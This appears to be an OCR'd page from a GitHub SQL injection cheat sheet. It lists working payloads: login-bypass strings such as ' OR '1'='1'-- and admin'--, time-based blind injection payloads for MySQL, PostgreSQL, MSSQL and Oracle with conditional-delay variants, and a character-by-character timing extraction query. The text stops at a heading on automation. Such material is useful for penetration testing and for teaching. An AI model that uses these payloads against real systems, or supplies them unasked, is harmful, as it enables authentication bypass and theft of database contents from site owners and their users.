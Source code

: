### **Login Bypass Payloads**

| Payload | Use |
| --- | --- |
| `' OR '1'='1'--` | Basic string-based bypass |
| `' OR 1=1--` | Numeric bypass |
| `' OR 'x'='x'--` | Blind bypass |
| `admin'--` | Bypass with known username |
| `' UNION SELECT 1, 'admin', 'password'--` | Bypass + inject data |
| `' OR 1=1 LIMIT 1 OFFSET 1--` | Limit result set |

### **Time-Based SQLi (Blind)**

| DBMS | Payload |
| --- | --- |
| MySQL | `SELECT SLEEP(10);` |
| PostgreSQL | `SELECT pg_sleep(10);` |
| MSSQL | `WAITFOR DELAY '0:0:10';` |
| Oracle | `dbms_pipe.receive_message(('a'),10)` |
|  |  |

**Conditional Delays**

| DBMS | Payload |
| --- | --- |
| MySQL | `SELECT IF(condition,SLEEP(10),'a');` |
| PostgreSQL | `SELECT CASE WHEN (condition) THEN pg_sleep(10) ELSE pg_sleep(0) END;` |
| MSSQL | `IF (condition) WAITFOR DELAY '0:0:10';` |
| Oracle | `SELECT CASE WHEN (condition) THEN dbms_pipe.receive_message('a',10) ELSE NULL END FROM dual;` |

### **Timing-Based Data Extraction via Bitwise Operations**

Very useful in Blind SQLi (character-by-character exfiltration):

```sql
' OR ASCII(SUBSTRING((SELECT database()),1,1)) = 115 AND SLEEP(5) --
```

→ Automated timing extraction scripts can be created from this pattern.

### **Blind Boolean-Based Automation Logic**

More structured loop for automation:
